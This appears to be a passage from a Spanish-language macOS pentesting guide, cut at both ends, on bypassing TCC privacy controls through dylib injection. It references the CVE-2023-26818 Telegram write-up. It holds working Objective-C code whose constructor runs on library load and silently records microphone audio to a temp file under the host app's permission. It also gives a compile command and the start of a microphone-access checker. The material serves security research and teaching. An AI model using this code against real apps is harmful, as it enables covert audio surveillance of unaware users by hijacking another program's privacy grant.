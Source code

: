 ```objectivec
}

- (void)startRecording {
[self.captureSession startRunning];
NSString *outputFilePath = [NSTemporaryDirectory() stringByAppendingPathComponent:@"recording.m4a"];
NSURL *outputFileURL = [NSURL fileURLWithPath:outputFilePath];
[self.audioFileOutput startRecordingToOutputFileURL:outputFileURL recordingDelegate:self];
NSLog(@"Recording started");
}

- (void)stopRecording {
[self.audioFileOutput stopRecording];
[self.captureSession stopRunning];
NSLog(@"Recording stopped");
}

#pragma mark - AVCaptureFileOutputRecordingDelegate

- (void)captureOutput:(AVCaptureFileOutput *)captureOutput
didFinishRecordingToOutputFileAtURL:(NSURL *)outputFileURL
fromConnections:(NSArray<AVCaptureConnection *> *)connections
error:(NSError *)error {
if (error) {
NSLog(@"Recording failed: %@", [error localizedDescription]);
} else {
NSLog(@"Recording finished successfully. Saved to %@", outputFileURL.path);
}
NSLog(@"Saved to %@", outputFileURL.path);
}

@end

__attribute__((constructor))
static void myconstructor(int argc, const char **argv) {

freopen("/tmp/logs.txt", "a", stderr);
AudioRecorder *audioRecorder = [[AudioRecorder alloc] init];

[audioRecorder startRecording];
[NSThread sleepForTimeInterval:5.0];
[audioRecorder stopRecording];

[[NSRunLoop currentRunLoop] runUntilDate:[NSDate dateWithTimeIntervalSinceNow:1.0]];
fclose(stderr); // Close the file stream
}
```
{% endtab %}

{% tab title="ObjectiveC - Verificación" %}
Verifica si la app tiene acceso al micrófono.
```objectivec
#import <Foundation/Foundation.h>
#import <AVFoundation/AVFoundation.h>

// From https://vsociety.medium.com/cve-2023-26818-macos-tcc-bypass-with-telegram-using-dylib-injection-part1-768b34efd8c4
// gcc -framework Foundation -framework AVFoundation -dynamiclib MicTest.m -o MicTest.dylib

@interface MicrophoneAccessChecker : NSObject
+ (BOOL)hasMicrophoneAccess;
@end
@implementation MicrophoneAccessChecker
+ (BOOL)hasMicrophoneAccess {
```